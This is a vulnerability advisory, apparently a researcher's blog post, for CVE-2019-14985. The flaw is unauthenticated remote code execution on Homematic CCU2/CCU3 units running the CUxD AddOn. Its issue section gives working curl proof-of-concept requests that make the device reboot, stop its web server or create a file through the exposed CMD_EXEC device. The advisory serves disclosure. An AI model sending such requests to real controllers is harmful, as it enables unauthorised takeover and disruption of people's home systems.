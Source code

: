 ```yaml
---
layout: post
title:  "CVE-2019-14985 eQ-3 Homematic CCU2 and CCU3 with the CUxD AddOn installed allows Remote Code Execution by unauthenticated attackers with access to the web interface, because CUxD 'CMD_EXEC' virtual device type 28 is not protected against external usage"
datetime: 2019-08-12 20:00:00 MEST
last_modified_at: 2019-08-13 20:15:05 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-14985
- Author: psytester
- Title: eQ-3 Homematic CCU2 and CCU3 with the CUxD AddOn installed allows Remote Code Execution by unauthenticated attackers with access to the web interface, because CUxD 'CMD_EXEC' virtual device type 28 is not protected against external usage
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 13.08.2019
- Updated: --
- Vendor: eQ-3 AG
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Vendor patch: N.A.
- Addon itself:
  - Developer of 'CUxD' AddOn contacted: 02.04.2019
  - Developer of 'CUxD' AddOn confirmation: 04.04.2019
  - 'CUxD' AddOn patch: N.A.
  - Affected 'CUxD' AddOn version: 2.3.4 and prior
- Affected Firmware version of CCU2: 2.35.16, 2.41.5, 2.41.8, 2.41.9, 2.45.6, 2.45.7, 2.47.10, 2.47.12, 2.47.15 tested
- Affected Firmware version of CCU3: 3.41.11, 3.43.16, 3.45.5, 3.45.7, 3.47.10, 3.47.15 tested

# Background

From [ELVjournal 06/2014](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-f%C3%BCr-die-HomeMatic%C2%AE-CCU-Teil-1/x.aspx/cid_726/detail_49667) translated:<br>
The Homematic additional software CUx-Daemon (short CUxD) is a universal interface between the Homematic central unit and components of other home control or SmartHome systems. These include the ELV FS20, FHT, HMS and EM/ESA systems, but also components of the EnOcean system and much more. By integrating these products, which are actually incompatible, the scope of the Homematic System can be extended beyond borders. In a multi-part article series we want to present CUxD, installations and possible uses in more detail.

From [ELVjournal 02/2015](https://www.elv.de/CUxD-%E2%80%93-das-Leatherman-fuuml;r-die-HomeMatic%C2%AE-CCU-Teil-3/x.aspx/cid_726/detail_50496) translated:<br>
The CUxD device Exec serves as a replacement for the undocumented and not very stable "system.exec()" function of the CCU, which can be used to start arbitrary processes on the Homematic central.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www and the internal device usage, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in CCU firmware, if 'CUxD' AddOn is installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented URL ending with ".exe" if lighttpd proxy.conf is not protected against remote call of "*.exe" URLs:<br>

```
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithSuffix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithSuffix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
curl -X POST -i 'http://1.2.3.4/UriHasToEndWithSuffix--.exe' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
```
2. RCE with an AddOn providing unprotected exec.cgi script like ['XML-API' AddOn](https://github.com/jens-maus/XML-API/issues/29) published in [CVE-2019-14984](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14984)<br>
or other popular AddOns like:<br>
[HM-Print](https://github.com/litti/hm-print/issues/4) published in [CVE-2019-18939](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18939)<br>
[HM-Email](https://github.com/jens-maus/hm_email/issues/11) published in [CVE-2019-18938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18938)<br>
[Script Parser](https://github.com/litti/scriptparser/issues/4) published in [CVE-2019-18937](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18937)<br>
Those CVEs are combined with this attack vector:

```
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/sbin/reboot");'
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
curl -X POST -i 'http://1.2.3.4/addons/xmlapi/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
```

# CVE

[CVE-2019-14985](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14985)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
